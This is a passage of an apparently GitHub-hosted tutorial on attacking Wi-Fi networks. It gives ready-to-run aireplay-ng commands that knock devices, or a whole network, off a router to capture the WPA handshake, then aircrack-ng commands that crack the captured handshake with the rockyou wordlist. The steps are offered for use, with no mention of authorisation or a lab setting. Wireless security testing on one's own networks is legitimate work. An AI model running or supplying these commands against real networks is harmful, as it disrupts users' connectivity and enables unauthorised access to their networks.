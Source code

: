 ![Screenshot 2023-10-17 221855](https://github.com/Esther7171/web-development/assets/122229257/e9ec3986-5e54-4bf3-9345-d90fc7057e33)


# step 4. kick off people form there network / deauthentication attack

* aireplay-ng is powerfull we using itfor deauth people and capture handshake when they try to reconnect.
* -a => router mac addrs.
* -c => device connected with router we going to deauthenticate.
* --deauth / -0 => to send number of deauth packeges.
```bash
aireplay-ng wlan0 -a -c  --deauth 10
```  
```bash
aireplay-ng wlan0 -a <bssid> -c <station>  -0 <number of packages>
```  
## for example 
```bash
aireplay-ng wlan0 -a 3C:46:45:1D:5D:31 -c D4:36:89:A4:7R:29 --deauth 10
```  
# To deauth on whole network use :
```bash
aireplay-ng wlan0 -a <bssid> -0 <deauth n.o packages>
```
## your handshake-file will be stored in the path u give 
- .cap  is the file fo capture handshake .  In my case is Meow.txt.cap
- so we going to crack it by aircrack-ng with wordlists.
# step 5. Crack the password / handshake file.
### To crack capture handshake we using aircrack-ng fast cracking tool
* -w to give wordlist.
* u got so many file but we need .cap file where handshake stored.
* if it not deauth another device.
* gzip -d /usr/share/wordlist/rockyou.txt (if it not)
![Screenshot 2023-10-17 225232](https://github.com/Esther7171/web-development/assets/122229257/c4fc707b-c3d0-46e4-a3b3-67bc1a041360)
 ```bash
aircrack-ng Meow.txt.cap -w /usr/share/rockyou.txt
```

![Screenshot 2023-10-17 225248](https://github.com/Esther7171/web-development/assets/122229257/760fda9a-b63c-4b78-a45d-b087561de64a)
* when it will crack it shou the password.

## Features
- install wlan0
- Kali , parrot ubuntu install Wi-fi drivers.
- enable Monitor mode.
- Scan localarea wifi networks.
- deauth devices.
- capture handshake file.
- crack handshake ushing aircrack
